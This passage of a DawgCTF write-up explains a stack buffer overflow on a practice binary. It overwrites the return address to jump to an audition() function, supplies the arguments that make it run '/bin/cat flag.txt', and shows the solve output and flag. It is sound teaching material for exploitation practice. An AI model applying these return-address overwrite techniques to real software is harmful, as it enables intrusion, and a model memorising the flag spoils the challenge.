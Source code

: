 ```
 80491c3:	c3                   	ret    
```

We just overwrite the return address with `0x08049182`, where `audition` is located at.

Remember those 4 bytes that were reserved for some reason?

```
8049206:	83 c4 10             	add    esp,0x10 ## Reserve 4 bytes on the stack
8049209:	83 ec 0c             	sub    esp,0xc  ## I don't know why, it just does.
```

Yeah, we have to overwrite that, too.

Let's look at `audition()` again.

```c
void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}
```

It takes 2 parameters, `time` and `room_num`, which have to be `1200` and `366` in order for the flag to be printed.

So, we write those values, and we're done!

We just have to write one last line break, and the flag should print!

The final solution script is [here](sol.py). You can read it if you want to.

I highly recommend learning how to use [pwntools](https://docs.pwntools.com/en/stable/about.html). It's a python library that a lot of people use in CTFs. And it's really easy to use.

It's [really easy to learn](https://docs.pwntools.com/en/stable/intro.html), and it makes everything much easier.

To import, you can just put `from pwn import *` at the beginning of your script.

It's completely free, I'm not being sponsored or anything, but I just think it's a really cool library that you may like to use.

```
$ py sol.py
[+] Starting local process './bof': pid 12899
Welcome to East High!

We're the Wildcats and getting ready for our spring musical

We're now accepting signups for auditions!

What's your name?

What song will you be singing?

DawgCTF{wh@t_teAm?}

```

Flag: `DawgCTF{wh@t_teAm?}`
